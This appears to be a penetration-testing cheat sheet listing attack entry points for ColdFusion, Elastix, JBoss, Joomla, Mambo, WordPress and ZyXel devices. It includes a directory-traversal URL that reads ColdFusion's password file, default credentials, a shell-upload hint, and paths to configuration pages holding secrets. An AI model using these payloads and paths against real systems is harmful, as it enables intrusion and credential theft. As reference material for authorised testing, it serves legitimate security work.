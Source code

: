     - `/CFIDE/adminapi/base.cfc?wsdl`

    - `exploit/windows/http/coldfusion_fckeditor`

    - LFI: `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`

- Elastix

    -  default login are `admin:admin` at `/vtigercrm/`

    - able to upload shell in profile-photo

    - Examine `httpd.conf/` windows config files

- JBoss

    - JMX Console `http://IP:8080/jmxconcole/`

    - War File

- Joomla

    - configuration.php

    - diagnostics.php

    - joomla.inc.php

    - config.inc.php

- Mambo

    - configuration.php    

    - config.inc.php

- Wordpress
    
    - setup-config.php    

    - wp-config.php

- ZyXel

    - /WAN.html (contains PPPoE ISP password)

    - /WLAN_General.html and /WLAN.html (contains WEP key)

    - /rpDyDNS.html (contains DDNS credentials)

    - /Firewall_DefPolicy.html (Firewall)

    - /CF_Keyword.html (Content Filter)

    - /RemMagWWW.html (Remote MGMT)

    - /rpSysAdmin.html (System)

    - /LAN_IP.html (LAN)

    - /NAT_General.html (NAT)

    - /ViewLog.html (Logs)
